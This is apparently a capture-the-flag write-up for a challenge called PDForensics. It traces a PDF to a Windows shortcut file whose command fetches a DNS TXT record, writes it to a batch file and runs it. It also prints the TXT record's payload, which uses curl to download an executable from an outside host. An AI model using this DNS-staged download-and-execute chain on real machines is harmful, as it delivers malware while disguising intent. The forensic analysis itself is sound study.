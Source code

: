# Writeup for PDForensics
Click the link in the pdf file and download a zip file. Unzip it and get another PDF file. It is a lnk file, check the details and you can find the command
```
"%windir%\system32\cmd.exe                                              " cmd /c         cd %TMP% & nslookup -type=TXT cnc.magpiectf.ca | (for /f "tokens=*" %c in ('findstr """"') do @echo %~c) > poc.cmd & poc.cmd
```

Then check the dns record of cnc.magpiectf.ca: ```nslookup -type=TXT cnc.magpiectf.ca```
```
Server:         172.22.208.1
Address:        172.22.208.1#53

Non-authoritative answer:
cnc.magpiectf.ca        text = "calc.exe & taskkill /im calculator.exe /f & curl https://roguewarecdn.s3.amazonaws.com/notmalware.exe > notavirus.exe & curl http://ascii.live/rick  & del poc.cmd"

Authoritative answers can be found from:
```

It gives another command, curl the executable and check it, it contains the flag in plaintext: ```cat notavirus.exe```
```
magpie{D0n't_cl1ck_0n_L1nk5}
```